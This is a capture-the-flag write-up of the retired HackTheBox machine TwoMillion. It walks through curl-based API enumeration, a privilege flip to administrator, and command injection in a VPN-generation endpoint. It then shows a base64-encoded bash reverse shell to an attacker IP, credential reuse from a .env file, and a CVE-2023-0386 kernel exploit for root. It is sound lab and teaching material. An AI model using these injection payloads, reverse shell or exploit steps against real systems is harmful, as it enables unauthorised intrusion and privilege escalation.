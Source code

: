 
TwoMillion is a retired linux box that HackTheBox, celebrated reaching 2 million users. The vulnerability features an invite code which can be received by enumerating various API endpoints via the `curl` command, which can be used to elevate the user to administrator. As an administrator the attacker can perform a command injection gaining a system shell. Via the shell the `.env` file has database credentials and can reuse these credentials via `ssh` to login as admin. The system kernel is outdated and CVE-2023-0386 can be used to get root shell.   

Running `nmap`, there are two ports open, 22, and 80 running ssh and http respectively. 

When I visit the target ip, I find the url is called `2million.htb`. I add this url to the hosts list,

```
echo '10.10.10.11 2million.htb' | sudo tee -a /etc/hosts
```

Visiting the `/invite` page, I find the javascript file `inviteapi.min.js` in the page source code. In the javascript code, there is a function `makeInviteCode` that returns base64 encrypted data. In the function there is a POST to a url `/api/v1/invite/how/to/generate`. Using this information we can use `curl` to probe the web application and get additional data, the invite code, cookies, etcetera.

```
curl -sX POST http://2million.htb/api/v1/invite/how/to/generate | jq
```

From the above curl we get a hint via a ROT13 encrypted data, that to generate an invite code, make a POST request to `/api/v1/invite/generate`

```
curl -sX POST http://2million.htb/api/v1/invite/generate | jq
```

We receive the code `U1oyN0ktUTVaOVMtREtOSVgtUDNDU00`, which if I run a base64 decryption, I get the invite code, `SZ27I-Q5Z9S-DKNIX-P3CSM`.

I insert the code into the `/invite` page and am redirected to the `register` page. I input a username, email, and password and can sign in through the `/login` page.

After logging in, if I access the `Access` tab and turn on Burp Suite to catch the next http request. I click on the `Connection Pack` button on the `Access` page and see that the GET request is to `/api/v1/user/vpn/generate` and a cookie is generated `PHPSESSID=nufb0km8892s1t9kraqhqiecj6`.

When I attempt to curl `/api` I get a 401 error:

```
curl -sv 2million.htb/api
```

This time I attempt a curl with the cookie I got earlier:

```
  curl -sv 2million.htb/api --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```

As a response I get the endpoint `v1`, and I attempt to curl that next:

```
curl -sv 2million.htb/api/v1 --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```

I get the responses, `/api/v1/admin/auth`, `api/v1/admin/vpn/generate`, `/api/v1/admin/settings/update`, so I will try those next.

```
curl http://2million.htb/api/v1/admin/auth --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```

The above command returns false, as we are not currently an administrative user.

```
curl -sv -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6"
```

I get a 401 unauthorized error as I'm not an admin yet.

```
curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```

This command works, but tells me that I am missing an email parameter.

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"email":"test@2million.htb"}' | jq

{
  "status": "danger",
  "message": "Missing parameter: is_admin"

}
```

I get an error I am missing the parameter `is_admin`.

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"email":"test@2million.htb", "is_admin": '1'}' | jq

{
  "id": 13,
  "username": "test",
  "is_admin": 1

}
```

This was successful, now I authenticate:

```
curl http://2million.htb/api/v1/admin/auth --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq

{
  "message": true

}
```

Now I curl the `/generate` endpoint:

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test"}'

client
dev tun
proto udp
remote edge-eu-release-1.hackthebox.eu 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL
<SNIP>
```

Since a VPN configuration file was generated for the user, the php file that generated it could be vulnerable to inject malicious code to gain command execution on the remote system. Let's test this by adding `;id;` to the username field.

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test;id;"}'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This is successful. I start a netcat listener: and inject a shell with the following payload:

```
nc -lnvp 1234
```

 and inject a shell with the following payload:

```
bash -i >& /dev/tcp/10.10.14.4/1234 0>&1
```

But the payload must be encrypted via base64:

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEyMzQgMD4mMQo= | base64 -d | bash;"}'
```

This is a success and I get shell access on the web-server.

On the server, I find admin credentials in the `.env` file 

```
www-data@2million:/var/www/html$ cat .env

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

I run `ssh` with the above credentials to login to admin.

After logging in as admin, there is an email in the path `/var/mail/admin`, in the email I find there is a vulnerability on `overlay fuse`, a google search reveals CVE-2023-0386 and vulnerability is in the linux kernel.

Running the following commands I get details on the Operating System:

```
admin@ubuntu:~$ uname -a

Linux ubuntu 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022
x86_64 x86_64 x86_64 GNU/Linux

$ lsb_release -a

No LSB modules are available.
Distributor ID: Ubuntu
Description:  Ubuntu 22.04.2 LTS
Release:  22.04

Codename: jammy
```

There is an exploit available on github:

```
  $ git clone https://github.com/xkaneiki/CVE-2023-0386
```

Unzip:

```
  zip -r cve.zip CVE-2023-0386
```

Upload the contents using scp:

```
scp cve.zip admin@2million.htb:/tmp
```

Run the following commands:

```
$ cd /tmp
$ unzip cve.zip
$ cd /tmp/CVE-2023-0386/
$ make all
$ ./fuse ./ovlcap/lower ./gc &
$ ./exp
$ whoami
root
```

Now we have root access and can run `cat /root/root.txt` to get the flag.